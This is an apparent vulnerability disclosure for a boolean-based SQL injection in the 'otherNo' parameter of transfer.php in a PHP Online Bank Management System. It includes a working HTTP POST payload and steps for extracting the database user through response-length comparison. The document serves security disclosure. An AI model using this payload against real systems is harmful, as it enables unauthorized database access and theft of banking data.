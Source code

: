 # Online Bank Management System - transfer.php 'otherNo' Unauthorized SQL inject

#### Exploit Title: Online Bank Management System - transfer.php 'otherNo' Unauthorized SQL inject

#### Vendor Homepage: https://www.sourcecodester.com/php/15373/online-banking-management-system-php-free-source-code.html

#### Software Link:https://www.sourcecodester.com/download-code?nid=15373&title=Online+Bank+Management+System+in+PHP+Free+Source+Code

#### Version: Online Bank Management System 1.0

#### Tested on: phpstudy 2018

#### Description

The reason for the SQL injection vulnerability is that the website application does not verify the validity of the data submitted by the user to the server (type, length, business parameter validity, etc.), and does not effectively filter the data input by the user with special characters , so that the user's input is directly brought into the database for execution, which exceeds the expected result of the original design of the SQL statement, resulting in a SQL injection vulnerability.Online Bank Management System does not filter the content correctly at the " transfer.php 'otherNo'" parameter, resulting in the generation of SQL injection.

#### Analysis
transfer.php does not filter the incoming data, causing malicious SQL commands to be directly passed into, and eventually lead to SQL injection

<img width="1050" height="232" alt="image" src="https://github.com/user-attachments/assets/c52101fc-4f5c-4b7a-a782-c3eee178f9da" />


#### Payload used:

```
POST /SourceCodesterBank/transfer.php HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 61

otherNo=' or mid(user(),1,1)='r' -- &get=Get%2BAccount%2BInfo
```

#### Proof of Concept

First, we use boolean injection to test whether the first bit of user() is r

<img width="933" height="284" alt="image" src="https://github.com/user-attachments/assets/1a64f2a5-9b20-4d18-a0dd-6cd600456520" />

By returning the length of the package, you can compare it to the true and suitable return length is 4791.

<img width="930" height="299" alt="image" src="https://github.com/user-attachments/assets/3fbebd75-ac1f-4304-8382-081f6e213b2d" />


Verify again to determine whether the first four digits of user() are root, and the result is also verified that it is root

<img width="929" height="278" alt="image" src="https://github.com/user-attachments/assets/d9e78472-464f-4adc-9471-203fb6b110e5" />
